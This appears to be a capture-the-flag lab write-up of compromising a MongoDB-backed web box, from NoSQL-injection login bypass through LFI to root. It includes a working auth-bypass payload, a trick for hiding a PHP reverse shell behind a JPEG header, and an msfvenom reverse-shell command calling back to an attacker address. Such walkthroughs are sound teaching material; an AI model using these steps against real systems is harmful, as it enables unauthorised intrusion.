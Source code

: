 ```yaml
---
date: 2025-03-11
categories: [CTF, IML]
title: "IML - MongoDB NoSQL Injection"
tags: ['gobuster', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'sqli', 'mongodb', 'nosqli']

description: "MongoDB NoSQL Injection - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - MongoDB NoSQL Injection

- Scan:

![image1](../resources/dc68505ba0864de89dcbc29127f8388e.png)

- Going to Port 80:

![image2](../resources/a7898c43ea7041698d258cb4e54b8357.png)

- We get a Login page and since this box is a MongoDB box, we can assume this is NoSqli

- Looking on:
<https://book.hacktricks.xyz/pentesting-web/nosql-injection>


![image3](../resources/c9def18806cf4472be56dc2ece822dd4.png)

**username\[\$ne\]=toto&password\[\$ne\]=toto**

- We need to see how the server crafts its authentication
- Open Burp Suite and capture the traffic from a login


![image4](../resources/a27c94f24a8c41c0afcd125882cd4ae2.png)

- Send this to the Repeater and change the authentication line

![image5](../resources/bfa8a8a7fb6e41628d11a6e18b6a68e9.png)

- Send it off and look at the Response (If this doesn't work - reset machine)

![image6](../resources/8bf395c7e7504e80aa048e02d2b92711.png)

**admin : Superhardpassword**

- Login with the credentials


![image7](../resources/d6631dba9b19474980bb6031b286edec.png)

- After trying to upload non jpeg files with a .jpeg extension and getting FAILED everytime, it's time to consider something else.
The jpeg header

- Since this Kali machine is closed off from the internet, we can search the machine itself for a jpeg image file:
```bash
find / -type f -name "\*.jpeg" 2>/dev/null

```

![image8](../resources/29bf84d6e48f48ca8ddf5362ec7eda7d.png)


![image9](../resources/7ef1dab00d0341a0a00afe4ac8944f61.png)

- Upload the thumbnail.jpeg and we get success:

![image10](../resources/fec7fe7f170c4c9c90b943774540a542.png)

- Through testing - all it needs to be successful is to have .jpeg at the end and for the data to start with:

![image11](../resources/b65bc279152b4a6293f90fb5cee5dc8b.png)

As show here:


![image12](../resources/26d3d3be75984cdf99a8f9e6ad2e5558.png)

- We can bruteforce for directories to see if we can execute the file (if we uploaded something malicious):
```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

```

![image13](../resources/61b9f6553bbf475e903c13677738c706.png)

- In /img:

![image14](../resources/a3527fc433964ac187cef8147bededf5.png)

- As this didn't lead to anything. I did another scan but with extensions this time:
```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php

```

![image15](../resources/e1c51a5287f84c94bb2851f546978d20.png)

- If we look at /test/php:

![image16](../resources/3a0220dc3cff4b11a1e1686ba6e89040.png)

- This is a LFI vulnerability:

![image17](../resources/8c9ca2bf342d4c53b31d3ee9b801d5a7.png)

We can access some of the mongodb file like mongod.conf and mongod.log


![image18](../resources/5200828d9e1c4f93a6a3909c7a0b0ba1.png)

As well as check what apps are running - /proc/self/cmdline


![image19](../resources/299d41fb79944563858602dc2d51812d.png)
- We can also see if we can get any ssh private keys
- But that didn't give much

- We can get to the /img directory (where the uploaded images were stored):

![image20](../resources/7aab26b12e66490cae891130a80b43a0.png)

- So the way I got this to work is:

- Upload a legitimate .jpg file
- Capture the request in Burp
- Send to Repeater

- Now remove all the jpeg data, **apart** from the first (JFIF) line
- Paste in the php reverse shell code under this line
(I used pentestmonkey's script - <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>)

- Also rename the filename so it ends with **.php.jpg**

- So it looks like this:

![image21](../resources/0e6e05be2b5a40918d63673f96224047.png)

Don't upload the php directly, and then try and add the JFIF line afterwards - it doesn't recognize it and will fail

- Send that request and you should get Successful

- Set up a nc listener on the port you specified in the script

- And in a new Burp request (captured from the LFI):
Go to /var/www/html/img/**\<image_name\>**.php.jpg


![image22](../resources/b7915beb3bbf44f88e8d9ed613b3fc83.png)

- And we got a shell:

![image23](../resources/eef72054242e4fb1b669d0d17cbdc442.png)

- Upgrade the shell:
/usr/bin/script -qc /bin/bash /dev/null

**<u>Priv Esc</u>**
- Querying MongoDB didn't give anything:

![image24](../resources/e334e020bbd54d808d8b9bca8b46f62e.png)

- After lots of enumerating - found nothing so to get root I did:

- Created a meterpreter payload:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.143.238 LPORT=8881 -f elf -o reverse.elf

```

![image25](../resources/0aedcd2630bb4e57a534c7bb2a975d38.png)

- Uploaded the payload to the target with python server and curl

- Once I got the meterpreter session back, I used the module - **multi/recon/local_exploit_suggester** to give me potential priv esc modules:

![image26](../resources/b93bca4bf16d4288883f1cd8e6f5a616.png)

- I then used the module - **exploit/linux/local/bpf_sign_extension_priv_esc** to get root and get the flag:

![image27](../resources/ade1d27ea346404fbd1956b4e57081f0.png)